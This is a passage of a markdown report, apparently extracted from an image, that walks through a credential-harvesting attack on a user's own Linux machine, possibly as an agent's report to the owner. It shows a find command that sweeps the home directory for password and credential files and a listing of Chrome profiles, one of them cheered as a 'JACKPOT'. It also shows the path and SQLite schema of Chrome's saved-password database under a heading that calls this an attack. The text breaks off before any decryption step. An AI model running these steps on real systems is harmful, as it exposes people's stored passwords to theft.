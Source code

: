 
#### Step 1.2: File System Exploration
```python
# Searched your entire home directory for credentials
find /home/owner -type f -name "*credentials*" -o -name "*password*"
```

**Result:**
- Found: `/home/owner/Github/Fuel Book Android/gmail-hack/credentials.json`
- Status: Mock credentials only (not real)
- Conclusion: No plain text passwords stored ✅

---

#### Step 1.3: Browser Detection
```bash
# Located Chrome installation
ls -la ~/.config/google-chrome/
```

**Found:**
```
Profile 1/ - 40,960 bytes password DB
Profile 2/ - 40,960 bytes password DB
Profile 5/ - 174,080 bytes password DB ⭐ (JACKPOT!)
```

**Analysis:**
- Profile 5 has 174 KB of password data
- This is where most passwords are saved
- Much larger than other profiles = more accounts

---

### **PHASE 2: CHROME PASSWORD DATABASE ATTACK** 💾

#### Step 2.1: Locate Password Database
```python
# Chrome stores passwords in SQLite database
profile_path = "~/.config/google-chrome/Profile 5/Login Data"
```

**File details:**
- Location: `/home/owner/.config/google-chrome/Profile 5/Login Data`
- Type: SQLite3 database
- Size: 174,080 bytes
- Status: **LOCKED** (Chrome was running)

---

#### Step 2.2: Database Structure Analysis

**Chrome Password Database Schema:**
```sql
CREATE TABLE logins (
    origin_url TEXT NOT NULL,
    username_value TEXT,
    password_value BLOB,  -- ENCRYPTED!
    date_created INTEGER,
    -- ... other fields
);
```
